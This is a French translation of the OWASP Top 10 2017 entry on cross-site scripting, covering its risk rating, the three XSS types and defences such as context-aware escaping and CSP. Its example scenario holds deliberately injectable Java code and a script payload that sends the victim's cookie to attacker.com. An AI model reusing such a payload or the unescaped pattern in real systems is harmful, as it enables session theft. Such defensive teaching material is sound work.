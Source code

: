 # A7:2017 Cross-Site Scripting (XSS)

| Facteurs de Menace/Vecteurs d'Attaque | Vulnérabilités           | Impacts               |
| -- | -- | -- |
| Accès Lvl : Exploitation 3 | Fréquence 3 : Détection 3 | Techniques 2 : Métier ?  |
| Des outils automatisés permettent de détecter et d'exploiter les trois types de XSS et des frameworks d'exploitation gratuits sont disponibles. | XSS est le deuxième problème le plus fréquent de l'OWASP Top 10 et on le retrouve dans près de 2/3 des applications. Les outils automatisés peuvent trouver automatiquement quelques failles XSS, en particulier dans des technologies matures telles que PHP, JEE / JSP, et ASP.NET. | L'impact de XSS est modéré pour les "XSS basés sur DOM" et les "XSS Réfléchis", et grave pour les "XSS Stockés", avec des exécutions à distance dans le navigateur de la victime, comme du vol de comptes d'accès, de sessions, ou de la distribution de logiciel malveillant à la victime. |

## Suis-je Vulnérable ?

Il y a trois types de XSS, ciblant habituellement les navigateurs des victimes :

* **XSS Réfléchi** : L'application ou l'API copie les entrées utilisateurs, sans validation ni contrôle des caractères spéciaux, comme partie intégrante de la sortie HTML. Une attaque réussie permet à l'attaquant d'exécuter du HTML et/ou du JavaScript arbitraire dans le navigateur de la victime. Typiquement, l'utilisateur devra interagir avec un lien malicieux redirigeant vers une page contrôlée par l'attaquant, comme un site web malicieux de type "point d'eau", publicitaire, ou équivalent.
* **XSS Stocké** : L'application ou l'API stocke des entrées utilisateurs, ni contrôlées ni assainies, qui seront vues ultérieurement par un autre utilisateur ou un administrateur. Ces XSS stockés sont souvent considérés comme un risque élevé, voir critique.
* **XSS basé sur DOM** : Les environnements Javascript, les applications monopage, et les API qui intègrent dynamiquement à la page, des données contrôlables par l'attaquant, sont vulnérables au XSS basé sur DOM. En règle générale, l'application ne doit pas transmettre de données contrôlables par l'attaquant à des API Javascript non sûres.

Les attaques habituelles de type XSS sont le vol de session, la prise de contrôle de compte, le contournement MFA, le remplacement ou le défacement de noeud DOM (comme des fenêtres de connexion-cheval de troie), des attaques du navigateur de l'utilisateur tels que des téléchargements de maliciels, des enregistreurs de frappe et autres attaques du client.

## Comment s'en Prémunir ?

Se protéger des attaques XSS nécessite la séparation des données non sûres du contenu actif du navigateur. 
Pour cela :

* Utiliser des frameworks avec des techniques automatiques d'échappements XSS par conception, comme les dernières versions de Ruby on Rails et React JS. Regarder les limitations de protection XSS de votre framework et prendre les mesures appropriées pour couvrir les cas non gérés.
* Appliquer des techniques d'échappement aux données des requêtes HTTP non sûres, selon le contexte des sorties HTML dans lequel elles seront insérées (body, attribute, Javascript, CSS, ou URL). Cela résoudra les vulnérabilités des XSS Réfléchis ou Stockés. L'[Aide-mémoire de l'OWASP 'Prévention des XSS'](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) donne des détails sur les techniques requises d'échappement des données.
* Appliquer un encodage adapté au contexte lors des modifications des documents du navigateur du client est une protection contre les XSS basés sur DOM. Quand cela ne peut pas être évité, des techniques d'échappement, adaptées au contexte, peuvent être appliquées aux API du navigateur comme indiqué dans l'[Aide-mémoire de l'OWASP 'Prévention des XSS basés sur DOM'](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet).
* Etablir une [Politique de Sécurité du Contenu (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) comme mesure de défense en profondeur limitant les attaques XSS. Cela sera efficace, s'il n'y a pas d'autre vulnérabilité qui permettrait de déposer du code malicieux par insertion de fichier en local (ex : écrasement par attaque de type "traversée de répertoire" ou via des bibliothèques vulnérables des réseaux de diffusion de contenu (CDN) autorisés).

## Exemple de Scénario d'Attaque

**Scénario #1** : L'application utilise des données non sûres dans la construction du fragment de code HTML sans validation ni technique d'échappement :

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`

L'attaquant remplace le paramètre ‘CC’ du navigateur par :
`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Cette attaque envoie l'ID de session de la victime vers le site web de l'attaquant, lui permettant ainsi de détourner la session active de l'utilisateur.

**Note** : Les attaquants peuvent utiliser XSS pour invalider les défenses automatisées anti-falsification de requête intersite (CSRF) que l'application peut avoir mises en place.

## Références

### OWASP

* [OWASP Contrôles Proactifs : Encoder les Données](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Contrôles Proactifs : Valider les Données](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Standard de Vérification de la Sécurité des Applications : V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Guide de Test : Test des XSS Réfléchis](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Guide de Test : Test des XSS Stockés](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Guide de Test : Test des XSS basés sur DOM](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Aide-Mémoire : Prévention du XSS ](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Aide-Mémoire : Prévention du XSS basé sur DOM](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Aide-Mémoire : Contournements de Filtres XSS ](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Projet Java Encodeur](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### Externes

* [CWE-79 : Neutralisation incorrecte des entrées utilisateurs](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger : Modèle d'injection côté Client](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
